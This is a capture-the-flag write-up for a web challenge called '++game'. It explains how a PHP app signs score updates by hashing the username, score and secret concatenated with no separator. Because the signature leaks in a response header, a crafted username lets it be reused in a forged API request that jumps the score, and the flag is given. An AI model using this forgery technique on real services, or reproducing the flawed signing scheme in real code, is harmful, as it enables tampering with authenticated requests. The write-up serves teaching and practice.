

web

# ++game

## Challenge

I have made an impossible game, no one can beat it! Can you?

**Note**: Due to some technical issues, we are
not able to provide you individual instances. Please keep a secure
username and password that no-one can guess. Otherwise someone else
might login to your account and grab the flag.

    Server: http://103.20.235.21:8000
    API: http://103.20.235.21:9000

## Solution

We get two URLs: one for the web application and other for its API. We
also have the code that's running on both of them.

Upon visiting the app, we run into a login page which also registers you
if the username doesn't exist.

After logging in, we see that our user has a score of 0 and we have to
get to 9223372036854775807. The score can be increased using the `inc`
button, which also requires a reCAPTCHA to be filled in.

Taking a look at the code, wee see that it's written in PHP. The server
makes a request to the API, also written in PHP, in order to log in or
increase the counter.

    /* snippet of dashboard.php */
    $username=$_SESSION['username'];
    if(isset($_POST['inc'])){
        $recaptcha = $_POST['g-recaptcha-response'];
        $secret_key = '<<REDACTED>>';
        $url = 'https://www.google.com/recaptcha/api/siteverify?secret='.$secret_key.'&response='.$recaptcha;
        $response = file_get_contents($url);
        $response = json_decode($response);
        if ($response->success===false) {
            die('Captcha failed!');
        }
        $current=$_SESSION['score'];
        $new_score=$current+1;
        $concat=$username.$new_score.$secret;
        $signature=sha1($concat);
        $var="http://api/update_score.php?username={$username}&next_level={$new_score}&signature={$signature}";
        $head=sprintf("API: %s",$var);
        header($head);
        $status=fetch($var);
    }

To increase the counter, a request is made to `update_score.php`. The
`next_level` parameter contains the number to which the score will be
updated to. There's also a `signature` parameter, which contains the
`sha1` of `username + new_score + secret`, in that order. The `secret`
variable is defined in `secret.php`, which we don't have.

One very useful thing that we do have, however, it the signature that
was used on a certain request. As can be seen in the code, the response
to the increase request will contain an `API` header with the request
sent to the API.

Here's how that looks like:

    HTTP/1.1 200 OK
    Date: Sun, 23 Oct 2022 16:02:55 GMT
    Server: Apache/2.4.54 (Debian)
    X-Powered-By: PHP/8.0.24
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    API: http://api/update_score.php?username=ottoboni&next_level=1&signature=308ee171475dda15b66ff14763340fd9c82523e6
    Vary: Accept-Encoding
    Content-Length: 875
    Connection: close
    Content-Type: text/html; charset=UTF-8
    <snip>

Since the signature is just the hash of the concatenation of a couple of
strings, different requests can actually have the same signature. For
example `?username=ott_922337203685477580&next_level=1` will have the
exact same signature as `?username=ott_&next_level=9223372036854775801`.
This is true because the result of the concatenation of `username` and
`next_level` is the same, so the `sha1` will also be the same.

The first case is very easy to do, we just create a user named
`ott_922337203685477580` and increase its counter once. When we do that
the `API` header will contain the signature used.

    API: http://api/update_score.php?username=ott_922337203685477580&next_level=1&signature=21ca72f1d7e72e0573fc84574e71689a8076f7c2

For the second one, we can simply reuse the signature we got earlier and
it should work.

    http://103.20.235.21:9000/update_score.php?username=ott_&next_level=9223372036854775801&signature=21ca72f1d7e72e0573fc84574e71689a8076f7c2

The remaining few last points we can get manually one by one.

Flag: `jadeCTF{b4s1c_yet_sm4rt_xploiTTT}`
